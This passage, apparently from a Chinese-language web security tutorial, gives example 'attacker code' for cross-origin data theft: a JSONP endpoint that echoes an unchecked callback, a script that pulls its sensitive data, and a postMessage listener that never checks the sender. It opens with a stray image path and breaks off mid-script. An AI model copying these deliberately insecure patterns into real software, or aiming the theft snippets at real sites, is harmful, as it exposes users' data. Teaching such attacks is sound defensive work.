 ```javascript
// 攻击者代码
fetch('http://localhost:3000/data')
  .then(response => response.json())
  .then(data => console.log(data))
  .catch(error => console.error(error));
```

### 4.2 JSONP漏洞攻击代码示例

```javascript
// 服务器代码
const express = require('express');
const app = express();

app.get('/jsonp', (req, res) => {
  const callback = req.query.callback;
  res.send(`${callback}({ sensitiveData: 'This is sensitive data' })`);
});

app.listen(3000, () => {
  console.log('Server is running on port 3000');
});

// 攻击者代码
const script = document.createElement('script');
script.src = 'http://localhost:3000/jsonp?callback=stealData';
document.body.appendChild(script);

function stealData(data) {
  console.log(data);
  // 将数据发送到攻击者控制的服务器
}
```

### 4.3 PostMessage滥用攻击代码示例

```html
<!-- 目标页面代码 -->
<!DOCTYPE html>
<html>
<head>
  <title>Target Page</title>
</head>
<body>
  <script>
    window.addEventListener('message', (event) => {
      // 未验证消息来源
      console.log(event.data);
      // 将数据发送到攻击者控制的服务器
    });
  </script>
</body>
</html>

<!-- 攻击者代码 -->
<!DOCTYPE html>
<html>
<head>
  <title>Attacker Page</title>
</head>
<body>
  <script>
    const targetWindow = window.open('http://localhost:3000/target');
    setTimeout(() => {
```